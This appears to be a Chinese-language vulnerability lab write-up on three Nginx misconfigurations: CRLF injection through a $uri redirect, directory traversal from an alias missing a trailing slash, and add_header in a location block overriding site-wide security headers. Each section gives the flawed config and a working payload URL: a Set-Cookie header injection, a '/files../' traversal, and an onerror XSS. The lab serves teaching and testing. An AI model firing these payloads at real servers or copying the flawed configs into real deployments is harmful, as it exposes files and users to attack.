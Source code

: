 # Nginx 配置错误导致漏洞

## 运行测试环境

```
docker-compose up -d
```

运行成功后，Nginx将会监听8080/8081/8082三个端口，分别对应三种漏洞。

## Mistake 1. CRLF注入漏洞

Nginx会将`$uri`进行解码，导致传入%0a%0d即可引入换行符，造成CRLF注入漏洞。

错误的配置文件示例（原本的目的是为了让http的请求跳转到https上）：

```
location / {
	return 302 https://$host$uri;
}
```

Payload: `http://{{ip}}:{{port[3]}}/%0a%0dSet-Cookie:%20a=1`，可注入Set-Cookie头。

利用《[Bottle HTTP 头注入漏洞探究](https://www.leavesongs.com/PENETRATION/bottle-crlf-cve-2016-9964.html)》中的技巧，即可构造一个XSS漏洞：

![](/vuln/nginx_insecure-configuration/1.png)

## Mistake 2. 目录穿越漏洞

Nginx在配置别名（Alias）的时候，如果忘记加`/`，将造成一个目录穿越漏洞。

错误的配置文件示例（原本的目的是为了让用户访问到/home/目录下的文件）：

```
location /files {
	alias /home/;
}
```

Payload: `http://{{ip}}:{{port[2]}}/files../` ，成功穿越到根目录：

![](/vuln/nginx_insecure-configuration/2.png)

## Mistake 3. add_header被覆盖

Nginx配置文件子块（server、location、if）中的`add_header`，将会覆盖父块中的`add_header`添加的HTTP头，造成一些安全隐患。

如下列代码，整站（父块中）添加了CSP头：

```
add_header Content-Security-Policy "default-src 'self'";
add_header X-Frame-Options DENY;

location = /test1 {
    rewrite ^(.*)$ /xss.html break;
}

location = /test2 {
    add_header X-Content-Type-Options nosniff;
    rewrite ^(.*)$ /xss.html break;
}
```

但`/test2`的location中又添加了`X-Content-Type-Options`头，导致父块中的`add_header`全部失效：

![](/vuln/nginx_insecure-configuration/3.png)

访问`http://{{ip}}:{{port[1]}}/test2#<img src=1 onerror=alert(1)>`XSS可被触发：

![](/vuln/nginx_insecure-configuration/4.png)
